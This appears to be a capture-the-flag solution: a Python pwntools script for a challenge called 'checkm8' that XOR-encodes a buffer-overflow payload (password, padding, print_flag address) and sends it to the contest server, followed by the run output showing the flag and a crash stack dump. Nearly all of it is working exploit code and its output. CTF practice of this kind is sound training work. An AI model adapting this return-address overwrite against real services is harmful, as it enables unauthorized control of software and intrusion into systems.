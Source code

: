 ```py
#!/usr/bin/env python
from pwn import *

HOST = 'checkm8.wreck-it.seclab.id'
PORT = 1337

def gen_key(n):
    p = 1
    k = [1]
    for i in range(n):
        k.append((0x41C64E6D * k[i] + 0x3039) % 256)
    return k[1:] # delete k[0]

def xor(k, s):
    f = ''
    for i in range(len(s)):
        f += chr(ord(s[i]) ^ k[i % len(k)])
    return f

def exploit(REMOTE):
    payload = p32(0x1DABC153) # password
    payload += 'A' * 0x20
    payload += p32(0x53C24E) # print_flag
    payload += p8(13)
    k = gen_key(len(payload))
    payload = xor(k, payload)
    r.sendafter(' : ', payload)

if __name__ == '__main__':
    REMOTE = len(sys.argv) > 1
    r = remote(HOST, PORT)
    exploit(REMOTE)
    r.interactive()
```

```sh
$ python2 solve.py
[+] Opening connection to checkm8.wreck-it.seclab.id on port 1337: Done
[*] Switching to interactive mode
wreck{m4Yb3_w3_Shl0ud_T4lk_brO}Invalid Opcode Exception
Error code: n/a
EIP:    0x07febfd9
CS:     0x0018
GS:     0x0018
Dumping stack:
0x58f260: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
0x58f240: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
0x58f220: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
0x58f200: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
0x58f1e0: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
0x58f1c0: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
0x58f1a0: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
0x58f180: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
0x58f160: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
0x58f140: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
0x58f120: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
0x58f100: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
0x58f0e0: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
0x58f0c0: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
0x58f0a0: 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000
0x58f080: 00000000 00000000 0053c24c 07febf78 00000000 00000000 00000000 00000000
0x58f060: 41414141 41414141 41414141 41414141 07febfd9 00000010 00000046 0053e7f4
```

